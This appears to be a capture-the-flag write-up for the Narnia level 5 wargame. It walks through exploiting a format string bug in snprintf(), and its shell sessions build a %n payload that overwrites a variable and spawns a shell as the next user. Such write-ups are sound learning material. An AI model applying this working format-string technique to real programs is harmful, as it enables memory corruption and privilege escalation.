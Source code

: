 After Seen C file `if i==500` , then we get a shell that's the point , buffer has size of `64` ,  input is taken as argument and stored to buffer using `snprintf()` , it has format string vulnerability as we have input into function. and buffer last char replace by `0` , let's experiment with input 

```
narnia5@gibson:/narnia$ ./narnia5 $(echo -e "AAAAAAA")
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAAAAA] (7)
i = 1 (0xffffd360)

# program printing the pointer i in hex value ,  %x print char in hex values
narnia5@gibson:/narnia$ ./narnia5 $(echo -e "AAAAAAA")%x%
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAAAAA41414141] (15)
i = 1 (0xffffd360)

narnia5@gibson:/narnia$ ./narnia5 $(echo -e "\x60\xd3\xff\xff")%x%
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [���`60d3ffff] (12)
i = 1 (0xffffd360)

narnia5@gibson:/narnia$ ./narnia5 $(echo -e "\x60\xd3\xff\xff"")%20x%
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [���`            60d3ffff] (24)
i = 1 (0xffffd360)

# this happen %n can't define argument inside "string" because there are more.
narnia5@gibson:/narnia$ ./narnia5 $(echo -e "\x60\xd3\xff\xff")%20x%n
Segmentation fault (core dumped)

# it worked but pointer value not increment beacuase $ is has to be escaped because it is shell variable
narnia5@gibson:/narnia$ ./narnia5 $(echo -e "\x60\xd3\xff\xff"")%20x%1$n
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [���`            60d3ffff] (24)
i = 1 (0xffffd360)

narnia5@gibson:/narnia$ ./narnia5 $(echo -e "\x60\xd3\xff\xff")%20x%1\$n
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [`���            ffffd360] (24)
i = 24 (0xffffd360)

# okay i was change into 4 , add 496 before
narnia5@gibson:/narnia$ ./narnia5 $(echo -e "\x60\xd3\xff\xff")%496x%1\$n
Change i's value from 1 -> 500. GOOD
$ whomai
/bin/sh: 1: whomai: Permission denied
$ whoami
narnia6
```



---